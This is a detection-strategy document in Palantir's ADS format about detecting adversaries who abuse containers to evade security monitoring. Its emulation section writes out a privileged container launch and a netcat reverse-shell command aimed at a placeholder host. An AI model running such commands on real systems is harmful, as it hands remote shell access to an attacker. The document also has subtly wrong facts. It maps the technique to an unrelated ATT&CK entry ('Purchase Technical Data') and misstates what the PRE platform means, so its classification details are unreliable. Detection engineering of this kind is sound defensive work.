 # Palantir's Alerting & Detection Strategy: Detect Adversarial Attempts to Bypass Security Monitoring Using Containers

## Goal
The primary objective of this technique is to detect adversarial attempts to bypass security monitoring by exploiting containerized environments. Adversaries may leverage containers for their agility, scalability, and ease of deployment to evade detection mechanisms typically designed for more static infrastructures.

## Categorization
- **MITRE ATT&CK Mapping:** T1597.002 - Purchase Technical Data
- **Tactic / Kill Chain Phases:** Reconnaissance
- **Platforms:** PRE (Privileged Remote Execution)

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1597/002)

## Strategy Abstract
The detection strategy focuses on identifying anomalous behaviors and patterns within container environments that suggest attempts to bypass security monitoring. Key data sources include:

- Container runtime logs
- Network traffic associated with containerized applications
- Host system metrics (CPU, memory usage)
- File integrity monitoring tools

Patterns analyzed for detection include unusual spikes in resource utilization, unexpected network connections from containers, and modifications of sensitive files within the container ecosystem.

## Technical Context
Adversaries exploit container technologies to deploy covert operations or exfiltrate data while minimizing their footprint. This is often achieved by:

- Establishing communication with command-and-control servers via encrypted channels.
- Injecting malicious code into legitimate processes running inside containers.
- Modifying host configurations to disable monitoring tools.

**Adversary Emulation Details:**

Sample commands might include:
```bash
# Creating a container with elevated privileges
docker run --privileged -d my-malicious-image

# Establishing covert communication from within the container
nc -e /bin/sh target.com 1234
```

Test scenarios could involve deploying containers that mimic adversary behaviors such as network scans or unusual data exfiltration patterns.

## Blind Spots and Assumptions
- **Blind Spot:** Legitimate administrative activities that resemble adversarial behavior may not be adequately filtered, leading to potential false positives.
- **Assumption:** Monitoring tools are correctly configured and integrated across the containerized environment. Any misconfiguration can lead to gaps in detection coverage.

## False Positives
Potential benign activities that might trigger alerts include:

- Legitimate updates or patches applied within containers resulting in temporary resource spikes.
- Routine administrative tasks executed from privileged accounts within the container network.
- Authorized data transfers occurring during peak usage times.

## Priority
**Priority: High**

The severity is deemed high due to the sophisticated nature of adversaries exploiting containers, which can lead to significant breaches if undetected. Containers are increasingly used in enterprise environments, making them attractive targets for malicious actors aiming to bypass traditional security measures.

## Validation (Adversary Emulation)
Currently, no specific step-by-step instructions are available to emulate this technique within a test environment. However, organizations should simulate potential attack vectors by conducting red team exercises that focus on container exploitation and monitoring the detection system's response.

## Response
When an alert is triggered:

1. **Immediate Containment:** Isolate affected containers from the network to prevent further spread.
2. **Investigate Logs:** Review relevant logs for any anomalous activities or indicators of compromise (IOCs).
3. **Analyze Traffic Patterns:** Examine network traffic originating from the container for signs of data exfiltration.
4. **Assess Host Impact:** Determine if host systems have been compromised or configurations altered to disable monitoring tools.

## Additional Resources
Additional references and context specific to this detection strategy are currently unavailable. Organizations should refer to their internal security policies, threat intelligence feeds, and community best practices for further guidance on securing containerized environments against adversarial threats.

---

This report outlines a comprehensive approach to detecting adversaries attempting to bypass security monitoring through containers, emphasizing the importance of robust detection mechanisms in modern IT infrastructures.